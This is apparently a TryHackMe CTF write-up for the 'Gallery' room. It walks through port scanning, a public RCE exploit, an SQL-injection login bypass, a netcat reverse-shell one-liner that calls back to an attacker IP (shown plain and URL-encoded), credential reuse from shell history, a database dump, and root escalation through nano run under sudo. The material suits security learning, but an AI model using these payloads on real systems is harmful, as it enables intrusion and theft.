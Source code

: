 ```yaml
---
title: Gallery
date: 2022-02-20
categories: [TryHackMe, Medim]
tags: [cms, exploit-db, linux]     # TAG names should always be lowercase
---
```


Official room [link](https://tryhackme.com/room/gallery666)

We first make a variable to hold our assign ip `export ip=10.10.62.114`

### Nmap result `nmap -sC -sV $ip`

```
Starting Nmap 7.60 ( https://nmap.org ) at 2022-02-13 10:30 GMT
Nmap scan report for ip-10-10-62-114.eu-west-1.compute.internal (10.10.62.114)
Host is up (0.0012s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Simple Image Gallery System
MAC Address: 02:45:AE:62:86:6F (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.91 seconds

```

### gobuster dir -u http://$ip -w usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.62.114
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/02/13 10:40:32 Starting gobuster
===============================================================
/gallery (Status: 301)
/server-status (Status: 403)
===============================================================
2022/02/13 10:40:56 Finished
==============================================================
```

### gobuster dir -u http://10.10.62.114/gallery -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.62.114/gallery
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/02/13 10:42:07 Starting gobuster
==========================================/images
/report (Status: 301)
/albums (Status: 301)
/plugins (Status: 301)
/database (Status: 301)
/classes (Status: 301)
/dist (Status: 301)
/inc (Status: 301)
/build (Status: 301)
/schedules (Status: 301)
===============================================================
2022/02/13 10:42:30 Finished
===============================================================

```

> ## Q1. How many ports are open?

- from our nmap result we can see there's 2 ports open, port 80, 8080

> ## Q2. Whats the name of the CMS?

- Also from the nmap scan we can see its Simple Image gallery

> ## Q3. What's the hash password of the admin user?

The flag `a228b12--------------914531c`

- This is a bit confusing, so i decided to dig abit on the CMS and see if
  there's any know vuln effecting to. At first i run the command
  `searchsploit simple image gallery` but unfortunently the result i got wasn't
  what I'm expecting. Seeing this make me think about our old friend google. I
  search it up and got [this](https://www.exploit-db.com/exploits/50214) from
  exploit-db. After you run the exploit it ask for target: i supply
  http://$ip/gallery. Boom it works like a charm, Now i have RCE on the server.
  I logged in to the cms with the payload `admin' or '1'='1'#` as username pass:
  null. then i navigate to /uploads where i found the file created by the
  exploit. i apply the payload and now i got a shell.

### php payload on the victim side

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <attacker-ip> 4242 >/tmp/f
```

The above wasn't working and i dont know, i search it up a bit and i figure out
i need to url encode it. Here is the working one

### php payload on victim side working one

```php
rm%20-f%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.10.58.106%204444%20%3E%2Ftmp%2Ff
```

### attacker machine

`nc -nvlp 4444` <br> <br>

### stabilizing the shell

Now i can use ctrl + any character (You will see why this is important in a
minute)

```bash
victim: python3 -c 'import pty;pty.spawn("/bin/bash")'
victim: Ctrl + Z
attacker: stty raw -echo; fg
victim: export TERM=xterm
```

Navigating to /home we can see 2 users 1. Ubuntu 2. Mike, we cd into mike but we
cant read user.txt. so i navigate to /dev/shm and pull linpeas.sh and run it.
After linpeas.sh finished i saw an interesting history for the user mike
`sudo -lb3stpassw0rdbr0xx`, that was kinda funny haha, so i just do `su mike`
with the password: b3stpassw0rdbr0xx. now i can read the user.txt

> ## Q4. Whats the user flag?

`THM{af05cd............d546ef}`

Also looking at linpeas out put i saw the default db connection password for the
gallery in the initialize.php located at /var/www/html/gallery.

Conneting to mysql `mysql -u gallery_user -p` password: pass....321 give the
databse where i retrieve the flag 3. the admin hash password

```sql
show databases;
use gallery_db;
show tables;
select * from users;
```

> ## Q5. Whats the root flag

There's no hint for this, so i use run `sudo -l` as mike.

```bash
User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh

```

Now its time to inspect /opt/rootkit.sh

cat /opt/rootkit.sh

```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac

```

So rootkit.sh is script simingly doing some sorta system update and stuff.
Looking at the read options i see we're calling /bin/nano /root/report.txt as
root. This grabs my attention pretty quick, as i know nano doesn't drop the
priv. So search it in gtfobins (who remember the commands anyways). running the
script as: `sudo /bin/bash /opt/rootkit.sh` give us options to choose, in the
beginning i know I'm only interested in the read read option. So i just enter
read. Now i have nano open with the report.txt. we can elevate our prive using
the below commands in nano.

### priv esc

```bash
^R ^X
reset; bash 1>&0 2>&0
```

Flag: `THM{ba87e0df..............bafde87}`

Thanks for reading hope this helps.
